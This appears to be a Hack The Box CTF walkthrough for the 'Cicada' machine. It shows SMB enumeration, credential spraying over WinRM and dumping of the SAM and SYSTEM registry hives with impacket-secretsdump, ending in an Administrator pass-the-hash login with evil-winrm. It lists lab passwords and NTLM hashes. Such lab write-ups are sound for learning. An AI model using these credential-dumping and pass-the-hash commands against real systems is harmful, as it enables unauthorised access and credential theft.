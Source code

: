```yaml
---
title: "Cicada"
date: 2024-11-11
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "cicada", "htb walkthrough", "hackthebox", "writeup"]
---
```


## Enumeration

### SMB

![screenshot](/assets/images/cicada1.png)

#### Notice from HR.txt

![screenshot](/assets/images/cicada2.png)

```text
Cicada$M6Corpb*@Lp#nZp!8
```

![screenshot](/assets/images/cicada3.png)

![screenshot](/assets/images/cicada4.png)

```sh
enum4linux-ng -A -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' cicada.htb -t 10
```

![screenshot](/assets/images/cicada5.png)

![screenshot](/assets/images/cicada6.png)

![screenshot](/assets/images/cicada7.png)

#### Backup_script.ps1

![screenshot](/assets/images/cicada8.png)

Creds for emily.oscars

```sh
nxc winrm cicada.htb -u users.txt -p passwords.txt
```

![screenshot](/assets/images/cicada9.png)

![screenshot](/assets/images/cicada10.png)

## Privilege Escalation

```powershell
whoami/all
```

![screenshot](/assets/images/cicada11.png)

```powershell
# save SAM and SYSTEM via evil-winrm
reg save hklm\sam sam.hive
reg save hklm\system system.hive

download sam.hive
download system.hive
```

![screenshot](/assets/images/cicada12.png)

```sh
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

![screenshot](/assets/images/cicada13.png)

```txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

```sh
evil-winrm -i cicada.htb -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

![screenshot](/assets/images/cicada14.png)

# Credentials

| Username          | Password                 | Hash | Source |
| ----------------- | ------------------------ | ---- | ------ |
| david.orelious    | aRt$Lp#7t*VQ!3           |      |        |
| michael.wrightson | Cicada$M6Corpb*@Lp#nZp!8 |      |        |
| emily.oscars      | Q!3@Lp#M6b*7t*Vt         |      |        |
|                   |                          |      |        |

